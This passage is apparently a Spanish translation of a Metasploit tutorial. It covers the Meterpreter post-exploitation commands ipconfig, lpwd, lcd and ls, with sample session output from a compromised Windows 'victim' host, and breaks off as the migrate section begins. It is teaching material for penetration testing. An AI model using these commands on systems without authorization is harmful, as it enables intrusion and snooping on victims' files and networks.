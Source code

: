 	meterpreter > ipconfig
	
	MS TCP Loopback interface
	Hardware MAC: 00:00:00:00:00:00
	IP Address  : 127.0.0.1
	Netmask     : 255.0.0.0
	
	AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
	Hardware MAC: 00:0c:29:10:f5:15
	IP Address  : 192.168.1.104
	Netmask     : 255.255.0.0
	
	meterpreter >

- LPWD Y LCD

Los comandos lpwd y lcd se utilizan para mostrar y cambiar el directorio de trabajo local respectivamente.
Al recibir un shell Meterpreter, el directorio de trabajo local es la ubicación donde se inició la consola Metasploit.
Cambiar el directorio de trabajo le dará a su sesión de Meterpreter acceso a los archivos ubicados en esta carpeta.

Ejemplo de uso:

	meterpreter > lpwd
	/root
	
	meterpreter > lcd MSFU
	meterpreter > lpwd
	/root/MSFU
	
	meterpreter > lcd /var/www
	meterpreter > lpwd
	/var/www
	meterpreter >

- LS

Como en Linux, el comando ls listará los archivos en el directorio remoto actual.

	meterpreter > ls
	
	Listing: C:\Documents and Settings\victim
	=========================================
	
	Mode              Size     Type  Last modified                   Name
	----              ----     ----  -------------                   ----
	40777/rwxrwxrwx   0        dir   Sat Oct 17 07:40:45 -0600 2009  .
	40777/rwxrwxrwx   0        dir   Fri Jun 19 13:30:00 -0600 2009  ..
	100666/rw-rw-rw-  218      fil   Sat Oct 03 14:45:54 -0600 2009  .recently-used.xbel
	40555/r-xr-xr-x   0        dir   Wed Nov 04 19:44:05 -0700 2009  Application Data
	...snip...


- MIGRATE

Con el módulo de migración de post explotación, puede migrar a otro proceso en la víctima.
